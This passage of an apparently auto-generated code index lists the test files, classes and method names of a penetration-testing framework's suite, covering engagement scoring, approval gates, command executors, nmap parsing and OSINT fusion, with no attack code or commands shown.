lazynmap').
    *
- `_NoOpGate` (line 497) `class _NoOpGate`
- `_RejectingGate` (line 508) `class _RejectingGate`
- `TestEngageOrchestrator` (line 528) `class TestEngageOrchestrator`
- `TestMcpEntryPoints` (line 632) `class TestMcpEntryPoints`
- `TestWiring` (line 676) `class TestWiring`
- `_CountingSink` (line 145) `class _CountingSink(INotificationSink)`
- `_BoomSink` (line 165) `class _BoomSink(INotificationSink)`
- `_GoodSink` (line 173) `class _GoodSink(INotificationSink)`

**Functions:**
- `temp_sessions` (line 47) `def temp_sessions(tmp_path, monkeypatch)` - *Redirect engagement_hooks to a writable temp sessions dir.*
- `policy_module` (line 270) `def policy_module(temp_sessions, monkeypatch)` - *Reload lazyown_policy so its module-level paths see the temp dir.*
- `_injected_sleep` (line 330) `def _injected_sleep(_seconds)`

**Methods:**
- `test_narrate_writes_log_and_audit` (line 87) `def test_narrate_writes_log_and_audit(self, temp_sessions)`
- `test_stream_sink_appends_to_autonomous_events` (line 112) `def test_stream_sink_appends_to_autonomous_events(self, temp_sessions)`
- `test_render_line_format_is_stable` (line 123) `def test_render_line_format_is_stable(self)`
- `test_fans_out_to_every_sink` (line 140) `def test_fans_out_to_every_sink(self, temp_sessions)`
- `test_failing_sink_does_not_break_broadcaster` (line 162) `def test_failing_sink_does_not_break_broadcaster(self, temp_sessions)`
- `test_first_call_emits_event` (line 192) `def test_first_call_emits_event(self, temp_sessions)`
- `test_repeat_call_is_idempotent` (line 209) `def test_repeat_call_is_idempotent(self, temp_sessions)`
- `test_invalid_client_id_returns_none` (line 217) `def test_invalid_client_id_returns_none(self, temp_sessions)`
- `test_client_id_is_sanitised` (line 223) `def test_client_id_is_sanitised(self, temp_sessions)`
- `test_accepts_ipv4` (line 242) `def test_accepts_ipv4(self)`
- `test_accepts_hostname` (line 248) `def test_accepts_hostname(self)`
- `test_rejects_garbage` (line 254) `def test_rejects_garbage(self)`
- `__init__` (line 283) `def __init__(self)`
- `announce` (line 287) `def announce(self, request)`
- `resolution_for` (line 290) `def resolution_for(self, approval_id)`
- `test_auto_approve_true_returns_approved_for_gated_phase` (line 295) `def test_auto_approve_true_returns_approved_for_gated_phase(self, policy_module, temp_sessions)`
- `test_non_gated_phase_bypasses_sink` (line 310) `def test_non_gated_phase_bypasses_sink(self, policy_module, temp_sessions)`
- `test_gated_phase_with_auto_approve_false_polls_sink` (line 326) `def test_gated_phase_with_auto_approve_false_polls_sink(self, policy_module, temp_sessions)`
- `test_gated_phase_times_out_to_denied` (line 356) `def test_gated_phase_times_out_to_denied(self, policy_module, temp_sessions)`
- `test_invalid_payload_defaults_to_auto_approve_true` (line 375) `def test_invalid_payload_defaults_to_auto_approve_true(self, policy_module, temp_sessions)`
- `test_announce_writes_pending_record` (line 386) `def test_announce_writes_pending_record(self, policy_module, temp_sessions)`
- `test_resolution_returns_latest_non_pending` (line 402) `def test_resolution_returns_latest_non_pending(self, policy_module, temp_sessions)`
- `test_no_tty_returns_none` (line 432) `def test_no_tty_returns_none(self, policy_module)`
- `test_returns_alternatives_in_order` (line 452) `def test_returns_alternatives_in_order(self)`
- `test_unknown_primary_returns_none` (line 462) `def test_unknown_primary_returns_none(self)`
- `__init__` (line 481) `def __init__(self, scripted)`
- `run` (line 485) `def run(self, command, timeout)`
- `name` (line 493) `def name(self)`
- `request` (line 498) `def request(self, target, phase, command, reason)`
- `__init__` (line 509) `def __init__(self, rejected_phase)`
- `request` (line 512) `def request(self, target, phase, command, reason)`
- `test_rejects_invalid_target` (line 529) `def test_rejects_invalid_target(self, temp_sessions, policy_module)`
- `test_runs_full_plan_on_success` (line 535) `def test_runs_full_plan_on_success(self, temp_sessions, policy_module)`
- `test_switches_tool_on_failure` (line 559) `def test_switches_tool_on_failure(self, temp_sessions, policy_module)`
- `test_denied_step_is_skipped` (line 585) `def test_denied_step_is_skipped(self, temp_sessions, policy_module)`
- `test_shell_indicator_stops_loop` (line 609) `def test_shell_indicator_stops_loop(self, temp_sessions, policy_module)`
- `test_engage_target_rejects_invalid` (line 633) `def test_engage_target_rejects_invalid(self, temp_sessions, policy_module)`
- `test_engage_target_returns_engagement_id` (line 639) `def test_engage_target_returns_engagement_id(self, temp_sessions, policy_module)`
- `test_engage_status_returns_pending_approvals_structure` (line 648) `def test_engage_status_returns_pending_approvals_structure(self, temp_sessions, policy_module)`
- `test_engage_approve_rejects_bad_decision` (line 656) `def test_engage_approve_rejects_bad_decision(self, temp_sessions, policy_module)`
- `test_engage_approve_accepts_valid_decision` (line 662) `def test_engage_approve_accepts_valid_decision(self, temp_sessions, policy_module)`
- `test_do_engage_method_exists_in_lazyown` (line 677) `def test_do_engage_method_exists_in_lazyown(self)`
- `test_lazyc2_has_engagement_hook_call` (line 684) `def test_lazyc2_has_engagement_hook_call(self)`
- `test_mcp_exposes_four_engage_tools` (line 688) `def test_mcp_exposes_four_engage_tools(self)`
- `test_daemon_has_engage_subcommand` (line 698) `def test_daemon_has_engage_subcommand(self)`
- `test_payload_json_auto_approve_key_is_bool_when_present` (line 703) `def test_payload_json_auto_approve_key_is_bool_when_present(self)`
- `test_approval_gate_defaults_to_true_when_key_missing` (line 708) `def test_approval_gate_defaults_to_true_when_key_missing(self, tmp_path)`
- `test_engagement_hooks_module_exposes_public_surface` (line 726) `def test_engagement_hooks_module_exposes_public_surface(self)`
- `test_policy_module_exposes_approval_surface` (line 740) `def test_policy_module_exposes_approval_surface(self)`
- `__init__` (line 146) `def __init__(self, name)`
- `name` (line 150) `def name(self)`
- `deliver` (line 153) `def deliver(self, event)`
- `name` (line 167) `def name(self)`
- `deliver` (line 170) `def deliver(self, event)`
- `name` (line 175) `def name(self)`
- `deliver` (line 178) `def deliver(self, event)`

#### `test_engage_summary.py`
**Path:** `tests/test_engage_summary.py`
**File Doc:** *Tests for modules/engage_summary.py.  Covers marker extraction, per-tool detail parsing, held-scan ports, text/markdown rendering and report persistence. All fixtures are synthetic; no shell or network involved.*

**Functions:**
- `_step` (line 45) `def _step(command)` - *Build one step result dict for rendering tests.*
- `test_marker_lines_drop_panels_and_bars` (line 54) `def test_marker_lines_drop_panels_and_bars()` - *Only [+] log lines survive; suggestion panels vanish.*
- `test_detail_for_ping_extracts_os` (line 62) `def test_detail_for_ping_extracts_os()` - *Ping detail surfaces TTL, liveness and os_id.*
- `test_detail_for_populate_extracts_services` (line 69) `def test_detail_for_populate_extracts_services()` - *Populate detail surfaces services and change state.*
- `test_detail_for_empty_search_is_honest` (line 76) `def test_detail_for_empty_search_is_honest()` - *A Not Found search reports no candidates, never invented ones.*
- `test_held_scan_ports_reads_xml` (line 82) `def test_held_scan_ports_reads_xml(tmp_path)` - *Held scan XMLs yield open ports and skip closed ones.*
- `test_render_text_shows_skip_with_held_ports` (line 91) `def test_render_text_shows_skip_with_held_ports(tmp_path)` - *Skipped scans still report the held ports in the summary.*
- `test_full_output_prefers_evidence` (line 104) `def test_full_output_prefers_evidence(tmp_path)` - *Evidence vault beats the truncated tail when a hash exists.*
- `test_write_report_persists_markdown` (line 114) `def test_write_report_persists_markdown(tmp_path)` - *The engagement report lands under sessions/engagements/.*
- `test_render_markdown_lists_evidence_and_next` (line 125) `def test_render_markdown_lists_evidence_and_next()` - *Markdown carries evidence hashes and next actions.*

#### `test_engagement_and_ping.py`
**Path:** `tests/test_engagement_and_ping.py`
**File Doc:** *tests/test_engagement_and_ping.py ================================== Tests for: - cli/engagement_hooks.py  (curiosity engine + VRI scheduler) - do_ping os_id fix        (Linux=1, Windows=2, persisted via _apply_assign) - do_recommend_next        (command-index layer, no graph nodes)  All tests are isolated: no real filesystem writes outside tmp_path, no real network calls, no real LazyOwn shell instantiation.*

**Classes:**
- `TestEngagementState` (line 58) `class TestEngagementState`
- `TestVRIScheduler` (line 105) `class TestVRIScheduler`
- `TestCuriosityEngine` (line 177) `class TestCuriosityEngine`
- `TestPingOsId` (line 283) `class TestPingOsId` - *Verify that TTL→os_id mapping and persistence are correct.*
- `TestRecommendNextCommandIndex` (line 351) `class TestRecommendNextCommandIndex` - *Verify the command-index layer in do_recommend_next works without graph.*

**Functions:**
- `_command_location` (line 30) `def _command_location(name)` - *Return ``(fragment, module_source)`` for a ``do_<name>`` command.

Commands may live in ``lazyown.py`` or any migrated module under
``cli/commands/``, so the lookup scans every CLI source in 1st party
order.*

**Methods:**
- `test_load_fresh_state_has_zero_commands` (line 59) `def test_load_fresh_state_has_zero_commands(self, tmp_path)`
- `test_save_and_reload_state` (line 74) `def test_save_and_reload_state(self, tmp_path)`
- `test_atomic_write_leaves_no_tmp_file` (line 90) `def test_atomic_write_leaves_no_tmp_file(self, tmp_path)`
- `test_next_threshold_always_positive` (line 106) `def test_next_threshold_always_positive(self)`
- `test_next_threshold_mean_near_target` (line 113) `def test_next_threshold_mean_near_target(self)`
- `test_threshold_is_variable_not_constant` (line 120) `def test_threshold_is_variable_not_constant(self)`
- `test_vri_fires_when_threshold_reached` (line 126) `def test_vri_fires_when_threshold_reached(self, tmp_path, capsys)`
- `test_vri_does_not_fire_before_threshold` (line 152) `def test_vri_does_not_fire_before_threshold(self, tmp_path, capsys)`
- `_make_state` (line 178) `def _make_state(self, seen)`
- `_minimal_index` (line 186) `def _minimal_index(self, phase_cmds)`
- `test_curiosity_shows_undiscovered_command` (line 192) `def test_curiosity_shows_undiscovered_command(self, capsys)`
- `test_curiosity_does_not_repeat_in_session` (line 202) `def test_curiosity_does_not_repeat_in_session(self, capsys)`
- `test_curiosity_silent_when_all_discovered` (line 219) `def test_curiosity_silent_when_all_discovered(self, capsys)`
- `test_curiosity_silent_when_disabled` (line 229) `def test_curiosity_silent_when_disabled(self, capsys)`
- `test_curiosity_silent_for_unknown_phase` (line 245) `def test_curiosity_silent_for_unknown_phase(self, capsys)`
- `test_commands_seen_accumulates_across_calls` (line 254) `def test_commands_seen_accumulates_across_calls(self, tmp_path)`
- `_ping_stdout` (line 286) `def _ping_stdout(self, ttl)`
- `_make_params` (line 289) `def _make_params(self)`
- `_extract_os_id_from_json` (line 292) `def _extract_os_id_from_json(self, data)`
- `test_ttl_64_maps_to_os_id_1_linux` (line 295) `def test_ttl_64_maps_to_os_id_1_linux(self)`
- `test_ttl_128_maps_to_os_id_2_windows` (line 302) `def test_ttl_128_maps_to_os_id_2_windows(self)`
- `test_ttl_127_maps_to_os_id_2_windows` (line 309) `def test_ttl_127_maps_to_os_id_2_windows(self)`
- `test_ttl_63_maps_to_os_id_1_linux` (line 316) `def test_ttl_63_maps_to_os_id_1_linux(self)`
- `test_ttl_255_maps_to_unknown` (line 323) `def test_ttl_255_maps_to_unknown(self)`
- `test_ping_os_json_contract` (line 330) `def test_ping_os_json_contract(self)` - *sessions/os.json schema: id, os, ttl, state.*
- `test_ping_persists_via_apply_assign` (line 338) `def test_ping_persists_via_apply_assign(self)` - *do_ping must call _apply_assign so os_id survives restart.*
- `_build_index` (line 354) `def _build_index(self, tmp_path, phase, n_cmds)`
- `_build_csv` (line 366) `def _build_csv(self, tmp_path, run_cmds)`
- `test_shows_unrun_commands` (line 411) `def test_shows_unrun_commands(self, tmp_path, capsys)`
- `test_shows_nothing_when_all_run` (line 436) `def test_shows_nothing_when_all_run(self, tmp_path)`
- `test_no_graph_nodes_in_output` (line 456) `def test_no_graph_nodes_in_output(self, tmp_path, capsys)` - *Command-index layer must never show code graph nodes.*
- `test_no_advisor_reference_before_definition` (line 470) `def test_no_advisor_reference_before_definition(self)` - *The NameError bug: 'advisor' must not be used before it's defined.*
- `test_rule_not_used_without_import` (line 509) `def test_rule_not_used_without_import(self)` - *Rule from rich must be imported if used in do_recommend_next.*
- `test_fallback_message_present` (line 517) `def test_fallback_message_present(self)` - *When no data: must show a useful fallback, not crash.*

#### `test_engagement_command_gate.py`
**Path:** `tests/test_engagement_command_gate.py`
**File Doc:** *Tests for the command-recording gate of cli/engagement_hooks.py.  The engagement telemetry must count only real LazyOwn commands. Before this gate every first token of an input line was recorded, so menu selections (``1``), quoted script paths, mistyped emails, host names and free-form natural language leaked into ``commands_seen`` and inflated the ELO ledger.  Two layers enforce the contract:  * A module-level syntactic filter (:func:`_is_recordable_command`) that rejects anything that is not shaped like a command name. It deliberately does not consult the static command index, which can lag the live shell. * An authoritative roster purge (:func:`heal_commands_seen` / :func:`_sanitize_seen` with a ``known`` set) driven at shell startup by the live ``get_all_commands()`` registry, which removes real-looking but invalid tokens such as ``do_against``.  Every module-level path is redirected to a tmp directory so the real ``sessions/`` state file is never touched.*

**Classes:**
- `TestIsRecordableCommand` (line 68) `class TestIsRecordableCommand` - *The syntactic gate that rejects input-line noise.*
- `TestHookRejectsNoise` (line 106) `class TestHookRejectsNoise` - *A non-command-shaped token must not touch commands_seen or the ELO.*
- `TestSanitizeSeen` (line 141) `class TestSanitizeSeen` - *Historical pollution is healed on load and against a roster.*
- `TestHealCommandsSeen` (line 187) `class TestHealCommandsSeen` - *The startup purge removes non-command entries against the live roster.*

**Functions:**
- `_redirect_paths` (line 34) `def _redirect_paths(tmp_path)` - *Point engagement_hooks state at tmp_path but keep the real index.*
- `_restore_paths` (line 56) `def _restore_paths(saved)`

**Methods:**
- `test_accepts_command_shaped_tokens` (line 72) `def test_accepts_command_shaped_tokens(self, cmd)`
- `test_rejects_syntactic_garbage` (line 81) `def test_rejects_syntactic_garbage(self, cmd)`
- `test_quoted_path_rejected` (line 86) `def test_quoted_path_rejected(self)`
- `test_do_prefixed_input_is_accepted` (line 91) `def test_do_prefixed_input_is_accepted(self)`
- `test_normalize_is_idempotent` (line 96) `def test_normalize_is_idempotent(self)`
- `test_garbage_does_not_enter_commands_seen` (line 109) `def test_garbage_does_not_enter_commands_seen(self, tmp_path)`
- `test_real_command_recorded_between_garbage` (line 123) `def test_real_command_recorded_between_garbage(self, tmp_path)`
- `test_syntactic_only_drops_ugly_garbage` (line 144) `def test_syntactic_only_drops_ugly_garbage(self)`
- `test_roster_drops_valid_but_unknown_tokens` (line 158) `def test_roster_drops_valid_but_unknown_tokens(self)`
- `test_load_state_heals_polluted_file` (line 165) `def test_load_state_heals_polluted_file(self, tmp_path)`
- `test_purges_and_persists` (line 190) `def test_purges_and_persists(self, tmp_path)`
- `test_idempotent_on_clean_state` (line 207) `def test_idempotent_on_clean_state(self, tmp_path)`

#### `test_engagement_elo_and_methodology.py`
**Path:** `tests/test_engagement_elo_and_methodology.py`
**File Doc:** *Tests for the ELO + karma + methodology extensions of cli/engagement_hooks.py.  Covers: * get_karma_name thresholds (mirror of lazyc2.py). * _award_elo additive structure (base, high-value, phase, first-time, new phase). * _sync_user_elo dual-write to users.json (atomic, schema-preserving). * _persist_notification atomic append + ring cap. * Methodology rewards: _render_methodology_{task,objective,note} (data-driven, return False when artefact missing, return True when artefact has entries). * _check_karma_up fires on threshold cross and is idempotent. * render_engagement_hook integration: ELO accumulates, dashboard notification persisted on VRI reward, karma_name reflected in state snapshot.  All tests redirect every module-level Path to a per-test tmp directory so the real ``sessions/``, ``payload.json`` and ``users.json`` are never touched.*

**Classes:**
- `TestGetKarmaName` (line 88) `class TestGetKarmaName` - *Verify karma bracket boundaries mirror lazyc2.get_karma_name.*
- `TestAwardElo` (line 119) `class TestAwardElo`
- `TestSyncUserElo` (line 179) `class TestSyncUserElo`
- `TestPersistNotification` (line 252) `class TestPersistNotification`
- `TestMethodologyRewards` (line 313) `class TestMethodologyRewards`
- `TestKarmaUp` (line 425) `class TestKarmaUp`
- `TestRenderEngagementHookIntegration` (line 463) `class TestRenderEngagementHookIntegration`
- `TestStateSnapshot` (line 524) `class TestStateSnapshot`

**Functions:**
- `_no_cli_operator` (line 31) `def _no_cli_operator(monkeypatch)` - *Stub the CLI operator lookup so tests do not depend on host login state.

``_sync_user_elo`` prefers the logged-in CLI operator when one exists,
which would route ELO writes at the real ``users.json`` on developer
machines with an active ``sessions/cli_session.json``. These tests
exercise the ``payload.json`` ``c2_user`` fallback, so the lookup must
be deterministic regardless of environment.*
- `_redirect_paths` (line 48) `def _redirect_paths(tmp_path)` - *Point every engagement_hooks path at tmp_path; return mapping for restore.*
- `_restore_paths` (line 76) `def _restore_paths(saved)`

**Methods:**
- `test_thresholds` (line 110) `def test_thresholds(self, elo, expected)`
- `test_base_only_for_unknown_command_and_phase` (line 120) `def test_base_only_for_unknown_command_and_phase(self)`
- `test_high_value_bonus_applied` (line 125) `def test_high_value_bonus_applied(self)`
- `test_phase_bonus_applied` (line 131) `def test_phase_bonus_applied(self)`
- `test_first_time_bonus` (line 137) `def test_first_time_bonus(self)`
- `test_new_phase_bonus` (line 143) `def test_new_phase_bonus(self)`
- `test_all_bonuses_stack` (line 149) `def test_all_bonuses_stack(self)`
- `test_do_prefix_is_stripped` (line 169) `def test_do_prefix_is_stripped(self)`
- `test_patches_matching_username` (line 180) `def test_patches_matching_username(self, tmp_path)`
- `test_silent_when_payload_missing` (line 199) `def test_silent_when_payload_missing(self, tmp_path)`
- `test_silent_when_username_not_found` (line 211) `def test_silent_when_username_not_found(self, tmp_path)`
- `test_ignores_non_positive_delta` (line 224) `def test_ignores_non_positive_delta(self, tmp_path)`
- `test_atomic_rename_leaves_no_tmp` (line 234) `def test_atomic_rename_leaves_no_tmp(self, tmp_path)`
- `test_creates_file_on_first_call` (line 253) `def test_creates_file_on_first_call(self, tmp_path)`
- `test_appends_to_existing_file` (line 264) `def test_appends_to_existing_file(self, tmp_path)`
- `test_ring_cap_drops_oldest` (line 277) `def test_ring_cap_drops_oldest(self, tmp_path)`
- `test_recovers_from_corrupt_file` (line 297) `def test_recovers_from_corrupt_file(self, tmp_path)`
- `test_task_reward_silent_when_no_file` (line 314) `def test_task_reward_silent_when_no_file(self, tmp_path, capsys)`
- `test_task_reward_renders_pending_match` (line 324) `def test_task_reward_renders_pending_match(self, tmp_path, capsys)`
- `test_task_reward_silent_when_all_done` (line 344) `def test_task_reward_silent_when_all_done(self, tmp_path, capsys)`
- `test_objective_reward_uses_phase_to_next_cmd` (line 361) `def test_objective_reward_uses_phase_to_next_cmd(self, tmp_path, capsys)`
- `test_objective_reward_silent_when_no_pending` (line 379) `def test_objective_reward_silent_when_no_pending(self, tmp_path, capsys)`
- `test_note_reward_renders_latest` (line 391) `def test_note_reward_renders_latest(self, tmp_path, capsys)`
- `test_note_reward_silent_when_empty` (line 412) `def test_note_reward_silent_when_empty(self, tmp_path, capsys)`
- `test_fires_on_threshold_crossing` (line 426) `def test_fires_on_threshold_crossing(self, tmp_path, capsys)`
- `test_idempotent_when_no_threshold_cross` (line 440) `def test_idempotent_when_no_threshold_cross(self, capsys)`
- `test_persists_notification` (line 447) `def test_persists_notification(self, tmp_path)`
- `test_elo_accumulates_across_commands` (line 464) `def test_elo_accumulates_across_commands(self, tmp_path)`
- `test_first_time_bonus_only_once_per_command` (line 479) `def test_first_time_bonus_only_once_per_command(self, tmp_path)`
- `test_users_json_syncd_when_payload_present` (line 493) `def test_users_json_syncd_when_payload_present(self, tmp_path)`
- `test_disabled_flag_is_noop` (line 508) `def test_disabled_flag_is_noop(self, tmp_path, capsys)`
- `test_returns_required_keys` (line 525) `def test_returns_required_keys(self, tmp_path)`

#### `test_estorides_fusion.py`
**Path:** `tests/test_estorides_fusion.py`
**File Doc:** *Estorides OSINT fusion: load, merge, surface readers.*

**Functions:**
- `_load_surface_graph` (line 27) `def _load_surface_graph()` - *Import cli/surface_graph.py by path (no cmd2 package import).*
- `_base_nodes` (line 37) `def _base_nodes()` - *One existing host node as built by the graph builders.*
- `test_load_lazyown_vocabulary` (line 45) `def test_load_lazyown_vocabulary(tmp_path)` - *The estorides --export lazyown file loads verbatim.*
- `test_load_raw_export_translates_types` (line 58) `def test_load_raw_export_translates_types(tmp_path)` - *Raw export_json documents map to LazyOwn kinds.*
- `test_merge_fuses_matching_ip` (line 75) `def test_merge_fuses_matching_ip()` - *Same IP fuses records instead of duplicating nodes.*
- `test_merge_adds_new_entities_capped` (line 91) `def test_merge_adds_new_entities_capped()` - *Unknown entities arrive tagged until the cap.*
- `test_merge_edges_reanchor` (line 107) `def test_merge_edges_reanchor(tmp_path)` - *Estorides relations re-anchor on fused ids, never on ghosts.*
- `test_find_export_prefers_lazyown` (line 127) `def test_find_export_prefers_lazyown(tmp_path)` - *No export anywhere resolves to None instead of raising.*
- `test_parse_confirm` (line 132) `def test_parse_confirm()` - *Only affirmative answers launch scans.*
- `test_discovery_targets_reads_all_files` (line 139) `def test_discovery_targets_reads_all_files(tmp_path)` - *hostsdiscovery + hosts_*_discovery files all contribute.*
- `test_write_world_model_hosts` (line 146) `def test_write_world_model_hosts(tmp_path)` - *Unknown estorides IPs append, known ones never duplicate.*
- `test_surface_readers_cover_sessions_formats` (line 158) `def test_surface_readers_cover_sessions_formats(tmp_path)` - *CSV scans, nmap normal output and discovery globs all parse.*

#### `test_evidence_hints.py`
**Path:** `tests/test_evidence_hints.py`
**File Doc:** *Tests for evidence-backed inline hints.  Covers the three collaborating pieces that turn the bare name-only hint into advice the operator can trust:  - ``cli.reactive_hints.confidence_from_score`` — score to display confidence. - ``cli.reactive_hints.build_evidence_hints`` / ``render_evidence_hints`` — shaping and printing verb + confidence + reason + provenance. - ``cli.recommendation_signals.recommend_with_evidence`` — the reuse-friendly engine convenience. - ``cli.tips_engine.TipsEngine`` wiring — evidence path with graceful fallback to the static bare-name hints.*

**Classes:**
- `_FakeEngine` (line 50) `class _FakeEngine` - *Stub recommendation engine recording the context it was called with.*
- `TestConfidenceFromScore` (line 62) `class TestConfidenceFromScore`
- `TestBuildEvidenceHints` (line 86) `class TestBuildEvidenceHints`
- `TestRenderEvidenceHints` (line 131) `class TestRenderEvidenceHints`
- `TestRecommendWithEvidence` (line 144) `class TestRecommendWithEvidence`
- `TestTipsEngineEvidenceWiring` (line 178) `class TestTipsEngineEvidenceWiring`

**Functions:**
- `_rec` (line 33) `def _rec(action, score, reasons, sources, command_preview)` - *Build a duck-typed Recommendation for the pure hint builders.*
- `tmp_sessions_with_csv` (line 162) `def tmp_sessions_with_csv()`
- `_engine_with_stub` (line 170) `def _engine_with_stub(sessions, recs, evidence)`

**Methods:**
- `__init__` (line 53) `def __init__(self, recs)`
- `recommend` (line 57) `def recommend(self, ctx)`
- `test_zero_score_is_zero_confidence` (line 63) `def test_zero_score_is_zero_confidence(self)`
- `test_negative_score_floored_to_zero` (line 66) `def test_negative_score_floored_to_zero(self)`
- `test_half_score_constant_yields_fifty` (line 69) `def test_half_score_constant_yields_fifty(self)`
- `test_monotonic_non_decreasing` (line 72) `def test_monotonic_non_decreasing(self)`
- `test_never_reaches_or_exceeds_hundred` (line 76) `def test_never_reaches_or_exceeds_hundred(self)`
- `test_bounded_in_unit_range_scaled` (line 80) `def test_bounded_in_unit_range_scaled(self)`
- `test_maps_core_fields` (line 87) `def test_maps_core_fields(self)`
- `test_strips_source_tag_from_reason` (line 100) `def test_strips_source_tag_from_reason(self)`
- `test_prefers_command_preview_over_action` (line 104) `def test_prefers_command_preview_over_action(self)`
- `test_skips_recommendation_without_verb` (line 111) `def test_skips_recommendation_without_verb(self)`
- `test_skips_recommendation_without_reason` (line 115) `def test_skips_recommendation_without_reason(self)`
- `test_respects_limit` (line 119) `def test_respects_limit(self)`
- `test_truncates_long_reason` (line 125) `def test_truncates_long_reason(self)`
- `test_prints_verb_confidence_and_reason` (line 132) `def test_prints_verb_confidence_and_reason(self, capsys)`
- `test_empty_list_prints_nothing` (line 139) `def test_empty_list_prints_nothing(self, capsys)`
- `test_returns_engine_output` (line 145) `def test_returns_engine_output(self)`
- `test_phase_override_reaches_engine_context` (line 150) `def test_phase_override_reaches_engine_context(self)`
- `test_target_falls_back_to_rhost` (line 155) `def test_target_falls_back_to_rhost(self)`
- `test_disabled_flag_returns_empty` (line 179) `def test_disabled_flag_returns_empty(self, tmp_sessions_with_csv)`
- `test_missing_engine_returns_empty` (line 183) `def test_missing_engine_returns_empty(self, tmp_sessions_with_csv)`
- `test_returns_evidence_hints` (line 190) `def test_returns_evidence_hints(self, tmp_sessions_with_csv)`
- `test_filters_already_run_commands` (line 196) `def test_filters_already_run_commands(self, tmp_sessions_with_csv)`
- `test_render_prefers_evidence_over_bare_names` (line 208) `def test_render_prefers_evidence_over_bare_names(self, tmp_sessions_with_csv)`
- `test_render_falls_back_to_bare_names` (line 214) `def test_render_falls_back_to_bare_names(self, tmp_sessions_with_csv)`

#### `test_executor_kernel.py`
**Path:** `tests/test_executor_kernel.py`
**File Doc:** *Single execution kernel shared by every command runner.  SDD contract: ``CommandExecutor.run_tee`` / ``run_passthrough`` own process spawning for the framework. ``LazyOwnShell.cmd`` delegates its spawn loop to them with CLI policies (terminal env, resilient writer, sessions log path, NOLOGS passthrough) while keeping its telemetry (toastr, logcsv, metrics, event bus) untouched.  Colors: bytes flow untouched from child stdout to the writer and the log file, and the child runs under ``core.hardening.terminal_env`` so piped tools keep emitting ANSI. Shell selection follows the shared ``core.safe_exec.needs_shell`` policy.*

**Classes:**
- `TestColorsPreserved` (line 33) `class TestColorsPreserved`
- `TestExitCodes` (line 62) `class TestExitCodes`
- `TestShellPolicy` (line 87) `class TestShellPolicy`
- `TestSingleSpawnPath` (line 113) `class TestSingleSpawnPath`

**Functions:**
- `_executor` (line 29) `def _executor()`

**Methods:**
- `test_writer_receives_raw_ansi_bytes` (line 34) `def test_writer_receives_raw_ansi_bytes(self)`
- `test_log_file_is_byte_identical_to_writer` (line 42) `def test_log_file_is_byte_identical_to_writer(self, tmp_path)`
- `test_stderr_merged_into_stream` (line 52) `def test_stderr_merged_into_stream(self)`
- `test_shell_path_exit_code` (line 63) `def test_shell_path_exit_code(self)`
- `test_argv_path_exit_code` (line 70) `def test_argv_path_exit_code(self)`
- `test_passthrough_returns_exit_code` (line 76) `def test_passthrough_returns_exit_code(self)`
- `test_matches_shared_policy` (line 101) `def test_matches_shared_policy(self)`
- `test_timeout_kills_and_raises` (line 106) `def test_timeout_kills_and_raises(self)`
- `test_cmd_delegates_spawning_to_kernel` (line 114) `def test_cmd_delegates_spawning_to_kernel(self)`
- `test_cmd_keeps_telemetry` (line 142) `def test_cmd_keeps_telemetry(self)`

#### `test_exploitgym_gym.py`
**Path:** `tests/test_exploitgym_gym.py`
**File Doc:** *Tests for the ExploitGym integration module.  Covers readiness detection, task listing, flag extraction, run/record flow, and ELO scoring reuse without requiring the real harness or Docker.*

**Classes:**
- `FakeProc` (line 143) `class FakeProc`
- `FakeProc` (line 177) `class FakeProc`

**Functions:**
- `_add_repo_root_to_syspath` (line 18) `def _add_repo_root_to_syspath()`
- `fake_repo` (line 24) `def fake_repo(tmp_path)` - *Create a minimal ExploitGym-like repo for task listing tests.*
- `_params` (line 39) `def _params(root)`
- `test_detect_domain_userspace` (line 51) `def test_detect_domain_userspace(fake_repo)`
- `test_list_tasks_filters_by_domain` (line 60) `def test_list_tasks_filters_by_domain(fake_repo)`
- `test_list_tasks_empty_without_repo` (line 77) `def test_list_tasks_empty_without_repo(tmp_path)`
- `test_check_readiness_ready` (line 84) `def test_check_readiness_ready(fake_repo, monkeypatch)`
- `test_check_readiness_missing_docker` (line 99) `def test_check_readiness_missing_docker(fake_repo, monkeypatch)`
- `test_check_readiness_missing_keys` (line 115) `def test_check_readiness_missing_keys(fake_repo, monkeypatch)`
- `test_extract_flag` (line 129) `def test_extract_flag()`
- `test_run_task_writes_log_and_records` (line 137) `def test_run_task_writes_log_and_records(fake_repo, tmp_path, monkeypatch)`
- `test_run_task_reports_missing_repo` (line 166) `def test_run_task_reports_missing_repo(tmp_path)`
- `test_pull_task_success` (line 174) `def test_pull_task_success(fake_repo, monkeypatch)`
- `test_score_task_reuses_redteam_pipeline` (line 192) `def test_score_task_reuses_redteam_pipeline(fake_repo, monkeypatch)`
- `test_setup_harness_reports_missing_repo` (line 212) `def test_setup_harness_reports_missing_repo(tmp_path, monkeypatch)`
- `test_setup_harness_runs_requested_steps` (line 221) `def test_setup_harness_runs_requested_steps(fake_repo, monkeypatch)`
- `test_command_set_declares_exploitgym` (line 241) `def test_command_set_declares_exploitgym()`
- `test_bridge_catalog_has_exploitgym` (line 248) `def test_bridge_catalog_has_exploitgym()`
- `fake_which` (line 87) `def fake_which(name)`
- `fake_which` (line 102) `def fake_which(name)`
- `fake_which` (line 118) `def fake_which(name)`
- `fake_run` (line 148) `def fake_run(cmd, cwd, capture_output, text, timeout, env)`
- `fake_run` (line 182) `def fake_run(cmd, cwd, capture_output, text, timeout, env)`
- `fake_record` (line 195) `def fake_record(challenge_id, success, elo_bonus, techniques)`
- `fake_run_streaming` (line 226) `def fake_run_streaming(cmd, cwd, timeout)`

#### `test_exploration_and_addons.py`
**Path:** `tests/test_exploration_and_addons.py`
**File Doc:** *tests/test_exploration_and_addons.py  Coverage for the new exploration engine and addon schema fields:  - ``cli/exploration.py`` — nmap XML parsing, addon/tool catalogues, trigger matching, coverage computation, OS resolution. - ``cli/exploration_view.py`` — Rich renderer smoke tests. - ``lazyaddons/*.yaml`` — every shipped addon declares the new ``os`` and ``trigger`` keys with values inside the allowed sets.  The suite touches no network and writes only to ``tmp_path`` fixtures.*

**Classes:**
- `TestNormalisers` (line 148) `class TestNormalisers` - *Pure helpers used by both the loader and the catalogue.*
- `TestNmapXmlReader` (line 182) `class TestNmapXmlReader` - *Discovered-service extraction from sessions/scan_*.nmap.xml.*
- `TestCatalogues` (line 206) `class TestCatalogues` - *Addon and tool YAML/JSON loaders.*
- `TestTriggerMatcher` (line 262) `class TestTriggerMatcher` - *Service/OS overlap checks.*
- `TestEngineEndToEnd` (line 290) `class TestEngineEndToEnd` - *ExplorationEngine wires reader + catalogues + matcher + history.*
- `TestResolveCurrentOs` (line 316) `class TestResolveCurrentOs` - *Mapping between payload.json fields and the MITRE platform string.*
